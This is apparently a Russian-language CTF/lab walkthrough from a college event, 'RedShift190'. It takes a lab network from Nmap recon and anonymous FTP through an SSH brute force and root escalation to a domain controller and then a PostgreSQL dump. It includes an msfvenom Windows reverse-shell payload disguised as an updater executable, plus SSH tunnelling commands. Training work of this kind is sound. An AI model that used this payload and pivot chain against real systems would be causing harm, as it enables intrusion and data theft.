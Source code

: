 
---

***Предисловие***: Данный стенд был подготовлен в рамках мероприятия "***RedShift190***", которое проводил Колледж программирования и Кибербезопасности.

Автор: Abends

---
### Часть 1. Разведка

Для начала в рамках нашей подсети производит сканирование через Nmap на наличие доступных хостов:

![ScreenShot](screenshots/2.png)

Нам удалось найти хост с IP-адресом **172.80.50.10**, который далее сканируем более детально:

![ScreenShot](screenshots/3.png)

Находим FTP с возможностью авторизации от лица anonymous. Входим:

![ScreenShot](screenshots/4.png)

Скачиваем себе все файлы для дальнейшего исследования:

![ScreenShot](screenshots/5.png)

---
### Часть 2. Исследование найденной информации. Захват первого хоста

Среди всех найденных интересных документов, раскрывающих подробности "миссии по колонизации Марса", есть простой текстовый документ ***ToDo.txt***, который содержит в себе следующую информацию:

![ScreenShot](screenshots/6.png)

Список дел, который подписан неким "***kevin***", возможно, это один из пользователей первого хоста. Вот только пароль мы не находим, а из открытых портов остался только SSH, поэтому пробуем сбрутить пароль:

![ScreenShot](screenshots/7.png)

Мы получили пароль "***gabriela***". Подключаемся по SSH к хосту и сразу проверяем сетевые интерфейсы:

![ScreenShot](screenshots/8.png)

Как видим, у этого хоста два сетевых интерфейса, смотрящих в разные подсети:
- 172.80.50.0/24;
- 192.168.20.10/24.

Что по повышению привилегий? А все просто:

![ScreenShot](screenshots/9.png)

С помощью `sudo -i` повышаемся до root-пользователя:

![ScreenShot](screenshots/10.png)

Далее меняем конфиг SSH на Ubuntu для возможности делать в дальнейшем SSH-туннели (не забываем перезапустить службу SSH):

```sh
# /etc/ssh/sshd_config

Port 22
GatewayPorts yes
AllowTcpForwarding yes
```

Также активируем параметр `net.ipv4.ip_forward` для пересылки пакетов между сетевыми интерфейсами:

```sh
# /etc/sysctl.conf

net.ipv4.ip_forward=1
```

Для проверки активации данного параметра необходимо в терминале ввести `sudo sysctl -p`:

![ScreenShot](screenshots/11.png)

На Kali Linux активируем proxychains4:

```sh
# /etc/proxychains4.conf

socks4 127.0.0.1 8888
```

---
### Часть 3. Исследование второго сегмента сети. Получение доступа к контроллеру домена

Сканируем второй сегмент сети при помощи Nmap:

![ScreenShot](screenshots/12.png)

Пробуем подключиться к ***PostgreSQL*** на хосте ***192.168.20.17***. Используем для этого ***proxychains4***. Для начала создаем динамический SSH-туннель (Dynamic Port Forwarding) в фоновом режиме:

![ScreenShot](screenshots/13.png)

Далее пробуем подключиться по одним из дефолтных кредов - ***postgres***:***postgres***:

![ScreenShot](screenshots/14.png)

Нам не удается подключиться, поэтому смотрим другой вектор. Вспоминает, что в файле "***ToDo.txt***" было упоминание о необходимости установить обновление для Windows Server. Подбросим вредоносный файл на FTP-сервер, который даст нам возможность реализовать reverse shell. Для начала подготовим ВПО при помощи ***msfvenom***:

```sh
kali>$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.20.10 LPORT=22222 -f exe -a x64 --platform windows > windows_server_updater.exe
```

Подключение производится на FTP-сервер, а с FTP-сервера будет перенаправление на Kali Linux. Для этого необходимо реализовать удаленный проброс портов (Remote Port Forwarding):

```sh
kali>$ ssh -R 192.168.20.10:22222:localhost:22222 kevin@192.168.20.10 -f -N
```

![ScreenShot](screenshots/15.png)

Загружаем ВПО на FTP-сервер:

![ScreenShot](screenshots/16.png)

> Через SSH на FTP-сервер сделаем `chmod 777 windows_server_updater.exe`

Прослушиваем порт 22222 на Kali Linux:

![ScreenShot](screenshots/17.png)

Теперь имитируем скачивание и активацию файла со стороны администратора домена:

![ScreenShot](screenshots/18.png)

![ScreenShot](screenshots/19.png)

![ScreenShot](screenshots/20.png)

Находим и читаем файл с логином и паролем от PostgreSQL:

![ScreenShot](screenshots/21.png)

---
### Часть 4. Получение доступа к БД

По найденным данным подключаемся к БД:

![ScreenShot](screenshots/22.png)

С помощью команды `\d+` просматриваем таблицы в ***postgres***:

![ScreenShot](screenshots/23.png)

Далее делаем запрос на получение данных: `SELECT * FROM "CyberAtom_Mars_mission_candidates";`:

![ScreenShot](screenshots/24.png)

Вот мы и получили доступ к заветным данным... На этом всё!

---
